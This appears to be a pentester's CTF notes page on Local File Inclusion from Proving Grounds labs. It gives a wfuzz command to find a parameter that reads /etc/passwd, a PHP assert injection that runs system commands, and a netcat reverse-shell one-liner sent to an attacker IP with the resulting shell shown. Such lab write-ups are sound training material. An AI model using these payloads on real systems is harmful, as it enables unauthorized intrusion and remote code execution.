 ```yaml
---
layout: default
title: Local File Inclusion
parent: Web Exploits
nav_order: 1
---
```


# Local File Inclusion

---

## Parameter Discovery with WFUZZ

We will do some fuzzing against the site.

First we need to get the session ID from Burp.

![burp2](../../../../assets/images/ctfs/proving_grounds/dc-9/burp2.png)

Now we can run WFUZZ against the _/welcome.php_ page with the _PHPSESSID_ parameter and using \*--hh 963" to ignore output that is 963 bytes.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/dc-9]
└─$ wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt --hc 404 --hh 963 -b "PHPSESSID=3f7m38o92mpldiuu4mug1f18t0" "http://192.168.160.209/welcome.php?FUZZ=../../../../../../../etc/passwd"
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.160.209/welcome.php?FUZZ=../../../../../../../etc/passwd
Total requests: 6453

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000002206:   200        85 L     150 W      3316 Ch     "file"

Total time: 0
Processed Requests: 3452
Filtered Requests: 3451
Requests/sec.: 0

```

We have the parameter "file" to use to display _/etc/passwd_

![lfi](../../../../assets/images/ctfs/proving_grounds/dc-9/lfi.png)

## LFI via PHP's 'assert' Options

![index](../../../../assets/images/ctfs/proving_grounds/assertion/index.png)

The URL looks susceptible to LFI, but we get a custom message after a simple test.

![brother](../../../../assets/images/ctfs/proving_grounds/assertion/brother.png)

Reaching the following page from HackTricks there are some _LFI via PHP's 'assert'_ options when the site appears to be filtering traversal strings, such as this site is doing.

[HackTricks File Inclusion Page](https://book.hacktricks.xyz/pentesting-web/file-inclusion)

```bash
http://192.168.232.94/index.php?page=%27%20and%20die(system(%22whoami%22))%20or%20%27
```

![whoami](../../../../assets/images/ctfs/proving_grounds/assertion/whoami.png)

Generate a reverse shell with revshellgen

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/assertion101]
└─$ revshellgen -i 192.168.45.217 -p 9001 -t nc-mknod

[+] Reverse shell command:

rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/assertion101]
└─$ urlencode "rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.217 9001 1>/tmp/l"
rm%20%2Ftmp%2Fl%3Bmknod%20%2Ftmp%2Fl%20p%3B%2Fbin%2Fsh%200%3C%2Ftmp%2Fl%20%7C%20nc%20192.168.45.217%209001%201%3E%2Ftmp%2Fl

```

Executing the following payload we get a reverse shell in our netcat listener.

```bash
URL: 192.168.232.94/index.php?page=' and die(system("rm%20%2Ftmp%2Fl%3Bmknod%20%2Ftmp%2Fl%20p%3B%2Fbin%2Fsh%200%3C%2Ftmp%2Fl%20%7C%20nc%20192.168.45.217%209001%201%3E%2Ftmp%2Fl")) or '


┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/assertion101]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.232.94] 59352
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
